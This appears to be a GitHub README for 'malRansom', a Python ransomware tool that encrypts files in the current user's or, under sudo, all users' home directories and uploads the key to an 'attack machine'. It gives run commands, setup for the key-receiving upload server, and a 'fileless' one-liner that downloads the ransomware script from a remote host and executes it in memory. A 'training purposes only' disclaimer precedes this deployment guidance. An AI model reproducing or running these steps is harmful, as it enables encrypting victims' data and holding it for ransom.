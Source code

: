 # malRansom
Python code that encrypts files in a user's home or users' /home directory.
# Description
First, I would like to say this is for training purposes only and not to be used in any nefarious way. Definitely, 3rawm05nar.py is not a real 
sophisticated piece of code. The encryption/decryption files have only been tested on Redhat 9, Ubuntu 22.04, and Windows 11. Windows takes longer to run the full script and requires that python3 is installed to run. On Redhat, 3rawm05nar.py may have to be ran twice due to missing packages.
# Requirements
There are different ways to conjure up an upload server, but recommend installing the module "uploadserver" for python3. It is easy to use and allows you to
upload your key to your attack machine. It highly recommended that you are able to upload files to python3 server before running script. If you do not want to try this, use upload.py as an alternative.
# Remember
IMPORTANT: Read the comments at the top of the python script before use. Update the Url for the uploading of the key and include port too. Just an idea... the key is generated at execution, but could be downloaded and passed as a string to eliminate the liability of the uploadserver. The code would have to be refactored at that point and a key would have to be generated prior. Windows will only affect the current user's home directory. Linux is ran with sudo and affects all users in /home. Use reveal.py for decryption.
# Windows
```Powershell
python3 .\3raw05nar.py
```
# Linux
```bash
sudo python3 3raw05nar.py
```
# Python Upload Server
```bash
pip3 install uploadserver
```
Your machine - Example: 
```bash
python3 -m uploadserver 44444
```
# Fileless Approach
```bash
python3 -c ("""from urllib.request import urlopen;url = 'http://< YOUR IP >/< DIRECTORY >/3rawm05nar.py';outtie = urlopen(url).read();getit = outtie.decode('utf-8');exec(outtie)""")
```
# Additional Resources

[NetworkChuck](https://www.youtube.com/watch?v=UtMMjXOlRQc&t=609s)

HTTP/HTTPS python upload server

[https://pypi.org/project/uploadserver/](https://pypi.org/project/uploadserver/)

Python simplehttpserver

[https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files](https://stackoverflow.com/questions/39788591/python-simplehttpserver-to-receive-files)
